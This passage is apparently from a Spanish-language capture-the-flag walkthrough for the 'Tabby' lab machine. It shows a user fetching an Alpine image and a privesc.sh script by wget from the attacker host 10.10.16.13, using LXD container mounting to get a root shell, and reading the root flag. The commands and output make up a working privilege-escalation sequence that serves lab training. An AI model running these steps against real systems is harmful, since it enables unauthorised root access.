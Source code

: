 ```bash
ash@tabby:/dev/shm$ wget http://10.10.16.13:80/alpine-v3.20-x86_64-20240922_0946.tar.gz
--2024-09-22 13:01:22--  http://10.10.16.13/alpine-v3.20-x86_64-20240922_0946.tar.gz
Connecting to 10.10.16.13:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3817757 (3.6M) [application/gzip]
Saving to: ‘alpine-v3.20-x86_64-20240922_0946.tar.gz’

alpine-v3.20-x86_64-20240922_0946.tar.gz      100%[================================================================================================>]   3.64M  2.10MB/s    in 1.7s    

2024-09-22 13:01:24 (2.10 MB/s) - ‘alpine-v3.20-x86_64-20240922_0946.tar.gz’ saved [3817757/3817757]

ash@tabby:/dev/shm$ ls
alpine-v3.20-x86_64-20240922_0946.tar.gz
ash@tabby:/dev/shm$ wget http://10.10.16.13:80/privesc.sh
--2024-09-22 13:01:40--  http://10.10.16.13/privesc.sh
Connecting to 10.10.16.13:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1434 (1.4K) [text/x-sh]
Saving to: ‘privesc.sh’

privesc.sh                                    100%[================================================================================================>]   1.40K  --.-KB/s    in 0.04s   

2024-09-22 13:01:40 (37.3 KB/s) - ‘privesc.sh’ saved [1434/1434]
```

- Lo ejecutamos y ganaríamos acceso al sistema

```bash
ash@tabby:/dev/shm$ chmod +x privesc.sh 
ash@tabby:/dev/shm$ ./privesc.sh -f alpine-v3.20-x86_64-20240922_0946.tar.gz 
Image imported with fingerprint: 4f2acd3ab38aacfaf92e3e152debc5cea1135b4e82376bdf5738546821e2b843
[*] Listing images...

Creating privesc
Device giveMeRoot added to privesc         
~ # whoami
root
~ # 
```

- Como estamos haciendo uso de monturas nos vamos al directorio `/mnt/root` y ahi tendremos todo el sistema montado pero en nuestro contenedor con todos los privilegios

```bash
/ # cd mnt/
/mnt # ls
root
/mnt # cd root/
/mnt/root # ls
bin         cdrom       etc         lib         lib64       lost+found  mnt         proc        run         snap        sys         usr
boot        dev         home        lib32       libx32      media       opt         root        sbin        srv         tmp         var
/mnt/root # cd root/
/mnt/root/root # ls
root.txt  snap
/mnt/root/root # cat root.txt 
cb0e018b***************
/mnt/root/root # 
```
